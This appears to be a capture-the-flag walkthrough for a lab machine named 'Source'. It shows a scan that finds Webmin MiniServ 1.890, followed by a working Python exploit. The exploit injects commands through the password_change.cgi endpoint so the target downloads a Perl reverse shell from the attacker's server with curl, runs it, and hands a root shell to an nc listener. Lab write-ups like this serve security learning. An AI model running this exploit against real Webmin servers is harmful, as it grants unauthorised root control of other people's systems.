

# Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>


I looked for `MiniServ 1.890 exploit` in Google and found a Python script, which turned out to work.<br>

Then I changed the script a little bit so that I understand it and have more control over it.<br>
Also, I found a good perl `reverse-shell`, and set up `python3 -m http.server`, set up an `nc -lvnp 2222`, and ran my new script.
```
import os

target = "source.thm"
port = "10000"
url = "https://"+target+":"+port+"/password_change.cgi"

rhost = "10.2.116.12"
rport = 2222

command1 = "curl -o perl_shell.pl http://10.2.116.12:8000/perl_shell.pl"
command2 = "perl perl_shell.pl"

header = f'Referer: https://{target}:{port}/session_login.cgi'

payload = f'user=gotroot&pam=&expired=2|echo "";{command1}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")

payload = f'user=gotroot&pam=&expired=2|echo "";{command2}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")
```

Then
```
python3 my_exp.py
```
And the `nc` listener will get you a `root reverse-shell`.
